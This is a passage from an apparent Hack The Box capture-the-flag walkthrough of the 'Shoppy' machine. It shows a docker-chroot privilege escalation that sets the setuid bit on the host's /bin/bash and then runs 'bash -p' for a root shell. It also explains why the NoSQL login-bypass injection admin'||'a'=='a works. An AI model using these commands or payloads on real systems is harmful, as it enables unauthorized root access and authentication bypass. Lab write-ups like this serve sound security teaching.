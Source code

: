     
    
    # chmod 4777 /bin/bash
    

Because I’m working from the `chroot` file system, that `bash` is on the host.
Exiting the container, I can verify it worked because the first `x` is now
`s`:

    
    
    deploy@shoppy:~$ ls -l /bin/bash
    -rwsrwxrwx 1 root root 1234376 Mar 27  2022 /bin/bash
    

Running it (with `-p` to not drop privs) gives a shell with the effective id
of root:

    
    
    deploy@shoppy:~$ bash -p
    bash-5.1# id
    uid=1001(deploy) gid=1001(deploy) euid=0(root) groups=1001(deploy),998(docker)
    

## Beyond Root - NoSQL Injection

In [this video](https://www.youtube.com/watch?v=EfLW51f6KFo), I’ll use VSCode
to connect to Shoppy, and analyze the NodeJS code for the website to better
understand the NoSQL injections. Then I’ll fix the vulnerabilities and show
that they no longer are exploitable:

One thing I didn’t go into in the video was how the boolean logic works for
this injection. With the injection `admin'||'a'=='a`, the query becomes:

    
    
    this.username == 'admin' || 'a'=='a' && this.password == '0xdf'
    

That is:

    
    
    true || true && false
    

How does that evaluate? I can check it in a browser:

![image-20230113094927242](https://0xdfimages.gitlab.io/img/image-20230113094927242.png)

But why does it work? The [Operator
Precedence](https://developer.mozilla.org/en-
US/docs/Web/JavaScript/Reference/Operators/Operator_Precedence#table) for
JavaScript groups operators into groups numbered 1-18, which are processed
from 18 down to 1. Logical AND (`&&`) is group 4, and Logical OR (`||`) is in
group 3:

![image-20230113095139932](https://0xdfimages.gitlab.io/img/image-20230113095139932.png)

So for the user admin, the query can be simplified a bit on each line:

    
    
    this.username == 'admin' || 'a'=='a' && this.password == '0xdf'
    true || true && false
    true || false
    true
    

[](/2023/01/14/htb-shoppy.html)

